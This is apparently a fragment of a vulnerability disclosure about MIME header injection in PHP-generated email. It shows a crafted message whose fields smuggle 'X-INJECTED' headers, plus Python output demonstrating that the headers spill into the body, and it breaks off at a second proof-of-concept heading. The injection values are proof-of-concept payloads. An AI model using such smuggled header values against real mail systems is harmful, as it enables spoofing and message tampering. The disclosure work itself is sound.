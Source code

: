 ```
From: joe@example.com, UNEXPECTED_DATA_AFTER_ADDRESS@".SYNTAX-ERROR."
Subject: bar@example.com

 From : X-INJECTED
To: foo@example.com, UNEXPECTED_DATA_AFTER_ADDRESS@".SYNTAX-ERROR."
cc: bar@example.com, UNEXPECTED_DATA_AFTER_ADDRESS@".SYNTAX-ERROR."
MIME-Version: 1.0
Content-Type: MULTIPART/mixed; BOUNDARY="371156484-1425523733-1593788218=:11383"

--371156484-1425523733-1593788218=:11383
Content-Type: APPLICATION/octet-stream
Content-Type: X-INJECTED
Content-Transfer-Encoding: BASE64
Content-Description: some file
Content-Type: X-INJECTED

QUJDCkNvbnRlbnQtVHlwZTogWC1JTkpFQ1RFRA==

--371156484-1425523733-1593788218=:11383
Content-Type: TEXT/plain; CHARSET=US-ASCII
Content-Description: description3

contents.data3


	
--371156484-1425523733-1593788218=:11383--

```

* Output from python parsing the MIME message generated by php.
  * Note that headers are split into the body
  
```python
from email.mime.text import MIMEText
msg = MIMEText(mimetext_from_php)
print(repr(msg.get_payload()))  # only print payload to demonstrate mime splitting
```

```
'From: joe@example.com, UNEXPECTED_DATA_AFTER_ADDRESS@".SYNTAX-ERROR."\nSubject: bar@example.com\n\n From : X-INJECTED\nTo: foo@example.com, UNEXPECTED_DATA_AFTER_ADDRESS@".SYNTAX-ERROR."\ncc: bar@example.com, UNEXPECTED_DATA_AFTER_ADDRESS@".SYNTAX-ERROR."\nMIME-Version: 1.0\nContent-Type: MULTIPART/mixed; BOUNDARY="371156484-1425523733-1593788218=:11383"\n\n--371156484-1425523733-1593788218=:11383\nContent-Type: APPLICATION/octet-stream\nContent-Type: X-INJECTED\nContent-Transfer-Encoding: BASE64\nContent-Description: some file\nContent-Type: X-INJECTED\n\nQUJDCkNvbnRlbnQtVHlwZTogWC1JTkpFQ1RFRA==\n\n--371156484-1425523733-1593788218=:11383\nContent-Type: TEXT/plain; CHARSET=US-ASCII\nContent-Description: description3\n\ncontents.data3\n\n\n\t\n--371156484-1425523733-1593788218=:11383--\n'
```

#### PoC #2 - Remail
